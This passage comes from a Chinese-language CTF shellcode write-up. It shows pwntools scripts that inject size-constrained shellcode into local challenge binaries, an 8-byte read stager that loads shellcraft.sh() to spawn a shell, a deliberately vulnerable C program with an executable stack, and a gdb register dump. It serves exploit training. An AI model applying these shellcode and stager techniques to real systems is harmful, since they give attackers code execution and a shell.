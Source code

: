 ```python
info(disasm(sh))
info(len(sh))
gdb.attach(p)
p.sendafter('shellcode>>\n', sh.ljust(0x20, '\x00'))
p.interactive()
```

还有一种就是构造 `read`，读入 shellcode，可以直接缩短到 8 个字节：

```python
#!/usr/bin/env python
from pwn import *
p = process('./main')
context.arch = 'i386'
sh = asm('''
	mul ebx
	mov al, 0x3
	mov dl, 0x90
	int 0x80
''')
info(disasm(sh))
info(len(sh))
gdb.attach(p)
p.sendlineafter('shellcode>>\n', sh)
payload = '\x90' * 0x20 + asm(shellcraft.sh())
p.sendline(payload)
p.interactive()
```

## shellcode64_22

Source Code：

```c
// gcc main.c -z execstack -o main
#include <stdio.h>
int main() {
	void (*ptr)();
	char buf[0x40];
	puts("shellcode>>");
	read(0, buf, 22);
	ptr = buf;
	ptr();
}
```

调试中可以发现 rax 和 rbx 的值为 0，我们可以把 7 个字节的 `mov rax, 59` 缩短为 2 个字节的 `mov al, 59`。同时清零 rdx 和 rsi 的工作可以通过 xor 来缩短成 3 个字节。然而，通过观察发现，64 位下只能通过寄存器的 push 只需要 1 个字节。如果用 push 和 pop，即 `push rbx ; pop rsi` 只需要 2 个字节。后面对 rdi 的赋值也可以通过同样的方式达到目的。最终 Shellcode 的长度缩短为 21 字节。执行 shellcode 时寄存器的状态：

```
─────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x7ffff7b04260 (__read_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x7fffffffe590 ◂— 0xa50 /* 'P\n' */
 RDI  0x0
 RSI  0x7fffffffe590 ◂— 0xa50 /* 'P\n' */
 R8   0x602000 ◂— 0x0
 R9   0xd
 R10  0x37b
 R11  0x246
 R12  0x4004e0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffe6c0 ◂— 0x1
 R14  0x0
```